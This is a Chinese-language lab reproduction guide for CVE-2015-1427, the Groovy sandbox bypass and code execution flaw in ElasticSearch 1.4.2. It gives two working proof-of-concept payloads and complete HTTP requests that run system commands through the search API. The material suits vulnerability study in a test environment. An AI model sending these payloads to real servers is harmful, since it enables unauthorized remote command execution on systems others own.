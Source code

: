 ```yaml
---
title: （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞
id: zhfly2904
---
```


# （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞

## 一、漏洞简介

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

## 二、漏洞影响

elasticsearch版本：v1.4.2

## 三、复现过程

### Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText() 
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res 
```

### 漏洞复现

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “test”

}` 
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156 `{“size”:1, “script_fields”: {“lupin”:{“lang”:“groovy”,“script”: “java.lang.Math.class.forName(“java.lang.Runtime”).getRuntime().exec(“id”).getText()”}}}` 
```

![image](../img/1504651339686fdff471c705b5e24857.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/